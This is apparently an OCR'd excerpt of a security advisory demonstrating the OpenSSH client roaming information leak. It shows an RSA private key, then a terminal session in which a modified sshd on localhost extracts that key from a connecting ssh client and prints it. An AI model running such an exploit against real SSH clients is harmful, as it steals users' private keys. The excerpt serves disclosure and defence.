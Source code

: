        

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA3GKWpUCOmK05ybfhnXTTzWAXs5A0FufmqlihRKqKHyflYXhr
qlcdPH4PvbAhkc8cUlK4c/dZxNiyD04Og1MVwVp2kWp9ZDOnuLhTR2mTxYjEy+1T
M3/74toaLj28kwbQjTPKhENMlqe+QVH7pH3kdun92SEqzKr7Pjx4/2YzAbAlZpT0
9Zj/bOgA7KYWfjvJ0E9QQZaY68nEB4+vIK3agB6+JT6lFjVnSFYiNQJTPVedhisd
a3KoK33SmtURvSgSLBqO6e9uPzV87nMfnSUsYXeej6yJTR0br44q+3paJ7ohhFxD
zzqpKnK99F0uKcgrjc3rF1EnlyexIDohqvrxEQIDAQABAoIBAQDHvAJUGsIh1T0+
eIzdq3gZ9jEE6HiNGfeQA2uFVBqCSiI1yHGrm/A/VvDlNa/2+gHtClNppo+RO+OE
w3Wbx70708UJ3b1vBvHHFCdF3YWzzVSujZSOZDvhSVHY/tLdXZu9nWa5oFTVZYmk
oayzU/WvYDpUgx7LB1tU+HGg5vrrVw6vLPDX77SIJcKuqb9gjrPCWsURoVzkWoWc
bvba18loP+bZskRLQ/eHuMpO5ra23QPRmb0p/LARtBW4LMFTkvytsDrmg1OhKg4C
vcbTu2WOK1BqeLepNzTSg2wHtvX8DRUJvYBXKosGbaoIOFZvohoqSzKFs+R3L3GW
hZz9MxCRAoGBAPITboUDMRmvUblU58VW85f1cmPvrWtFu7XbRjOi3O/PcyT9HyoW
bc3HIg1k4XgHk5+F9r5+eU1CiUUd8bOnwMEUTkyr7YH/es+O2P+UoypbpPCfEzEd
muzCFN1kwr4RJ5RG7ygxF8/h/toXua1nv/5pruro+G+NI2niDtaPkLdfAoGBAOkP
wn7j8F51DCxeXbp/nKc4xtuuciQXFZSz8qV/gvAsHzKjtpmB+ghPFbH+T3vvDCGF
iKELCHLdE3vvqbFIkjoBYbYwJ22m4y2V5HVL/mP5lCNWiRhRyXZ7/2dd2Jmk8jrw
sj/akWIzXWyRlPDWM19gnHRKP4Edou/Kv9Hp2V2PAoGBAInVzqQmARsi3GGumpme
vOzVcOC+Y/wkpJET3ZEhNrPFZ0a0ab5JLxRwQk9mFYuGpOO8H5av5Nm8/PRB7JHi
/rnxmfPGIWJX2dG9AInmVFGWBQCNUxwwQzpz9/VnngsjMWoYSayU534SrE36HFtE
K+nsuxA+vtalgniToudAr6H5AoGADIkZeAPAmQQIrJZCylY00dW+9G/0mbZYJdBr
+7TZERv+bZXaq3UPQsUmMJWyJsNbzq3FBIx4Xt0/QApLAUsa+l26qLb8V+yDCZ+n
UxvMSgpRinkMFK/Je0L+IMwua00w7jSmEcMq0LJckwtdjHqo9rdWkvavZb13Vxh7
qsm+NEcCgYEA3KEbTiOU8Ynhv96JD6jDwnSq5YtuhmQnDuHPxojgxSafJOuISI11
1+xJgEALo8QBQT441QSLdPL1ZNpxoBVAJ2a23OJ/Sp8dXCKHjBK/kSdW3U8SJPjV
pmvQ0UqnUpUj0h4CVxUco4C906qZSO5Cemu6g6smXch1BCUnY0TcOgs=
        -----END RSA PRIVATE KEY-----
```



       

```
# env ROAMING="client_out_buf_size:1280" "`pwd`"/sshd -o ListenAddress=127.0.0.1:222 -o UsePrivilegeSeparation=no -f /etc/ssh/sshd_config -h /etc/ssh/ssh_host_rsa_key
$ /usr/bin/ssh -p 222 127.0.0.1
user@127.0.0.1's password:
[connection suspended, press return to resume][connection resumed]
# cat /tmp/roaming-97ed9f59/infoleak
MIIEpQIBAAKCAQEA3GKWpUCOmK05ybfhnXTTzWAXs5A0FufmqlihRKqKHyflYXhr
qlcdPH4PvbAhkc8cUlK4c/dZxNiyD04Og1MVwVp2kWp9ZDOnuLhTR2mTxYjEy+1T
M3/74toaLj28kwbQjTPKhENMlqe+QVH7pH3kdun92SEqzKr7Pjx4/2YzAbAlZpT0
9Zj/bOgA7KYWfjvJ0E9QQZaY68nEB4+vIK3agB6+JT6lFjVnSFYiNQJTPVedhisd
a3KoK33SmtURvSgSLBqO6e9uPzV87nMfnSUsYXeej6yJTR0br44q+3paJ7ohhFxD
zzqpKnK99F0uKcgrjc3rF1EnlyexIDohqvrxEQIDAQABAoIBAQDHvAJUGsIh1T0+
eIzdq3gZ9jEE6HiNGfeQA2uFVBqCSiI1yHGrm/A/VvDlNa/2+gHtClNppo+RO+OE
w3Wbx70708UJ3b1vBvHHFCdF3YWzzVSujZSOZDvhSVHY/tLdXZu9nWa5oFTVZYmk
oayzU/WvYDpUgx7LB1tU+HGg5vrrVw6vLPDX77SIJcKuqb9gjrPCWsURoVzkWoWc
bvba18loP+bZskRLQ/eHuMpO5ra23QPRmb0p/LARtBW4LMFTkvytsDrmg1OhKg4C
vcbTu2WOK1BqeLepNzTSg2wHtvX8DRUJvYBXKosGbaoIOFZvohoqSzKFs+R3L3GW
hZz9MxCRAoGBAPITboUDMRmvUblU58VW85f1cmPvrWtFu7XbRjOi3O/PcyT9HyoW
bc3HIg1k4XgHk5+F9r5+eU1CiUUd8bOnwMEUTkyr7YH/es+O2P+UoypbpPCfEzEd
muzCFN1kwr4RJ5RG7ygxF8/h/toXua1nv/5pruro+G+NI2niDtaPkLdfAoGBAOkP
wn7j8F51DCxeXbp/nKc4xtuuciQXFZSz8qV/gvAsHzKjtpmB+ghPFbH+T3vvDCGF
iKELCHLdE3vvqbFIkjoBYbYwJ22m4y2V5HVL/mP5lCNWiRhRyXZ7/2dd2Jmk8jrw
sj/akWIzXWyRlPDWM19gnHRKP4Edou/Kv9Hp2V2PAoGBAInVzqQmARsi3GGumpme
```
